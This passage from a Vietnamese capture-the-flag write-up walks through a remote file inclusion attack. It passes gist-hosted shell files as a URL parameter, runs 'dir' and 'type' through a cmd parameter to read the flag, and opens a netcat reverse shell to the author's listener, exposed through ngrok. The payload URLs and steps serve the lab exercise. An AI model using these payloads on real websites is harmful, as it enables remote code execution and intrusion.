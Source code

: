 sau đó lấy link vào truyền vào params info: Payload: `?info=https://gist.githubusercontent.com/AT190510-Cuong/75a53dfa70ca0ee7defc2563a1b18ca2/raw/6f444b3e9db0819c3d7522d4b39ca299f3d85b1c/shell` và mình được:

![image](https://hackmd.io/_uploads/HyLtRoXjT.png)

- Thông báo lỗi như vậy chứng tỏ file shell của chúng ta đã thành công chạy trên website
- dùng `&cmd=dir` để list ra các files có trong folder hiện tại trên máy window của mình

![image](https://hackmd.io/_uploads/Skfz12mjT.png)

- Ctrl + U để cho dễ nhìn:

![image](https://hackmd.io/_uploads/H1-Dyn7sa.png)

và mình dùng `&cmd=type` flag để đọc file flag

![image](https://hackmd.io/_uploads/S1uAyh7sp.png)

và mình được flag là `FLAG{d3p_z41_v@y_m4_Chu@_c0_n9u01_y3u}` vậy mình đã thực thi RCE trang web thành công

- với cách khác mình có thể chiếm được shell và thực thi nó
  mình tạo webshell để netcat đến server lắng nghe của mình ở port 8000

![image](https://hackmd.io/_uploads/Hk-tAjBjT.png)

sau đó mình up đường dẫn vào parameter info

```!
/?info=https://gist.githubusercontent.com/AT190510-Cuong/d2d6139349404547af22dc02b9b1085e/raw/894dc9b9b80be6ce908b9d40922b15901fc0e1ff/shell1.php
```

trang web sẽ trong trạng thái load mãi và mình quan sát trong terminal thấy đã có shell và thực thi nó thành công

![image](https://hackmd.io/_uploads/ry87JnBsa.png)

- và mình đọc được flag này

![image](https://hackmd.io/_uploads/HJgrJhBsp.png)

- mình cũng có thể dùng ngrok để ánh xạ địa chỉ local trên máy mình ra public để khai thác với máy thật: `ngrok tcp 8000`

![image](https://hackmd.io/_uploads/Hk7vM3rsa.png)

![image](https://hackmd.io/_uploads/rkepIV2Ho6.png)

![image](https://hackmd.io/_uploads/SkUEVnHj6.png)

![image](https://hackmd.io/_uploads/SJq-hWXia.png)

![image](https://hackmd.io/_uploads/B1NX5zbsp.png)
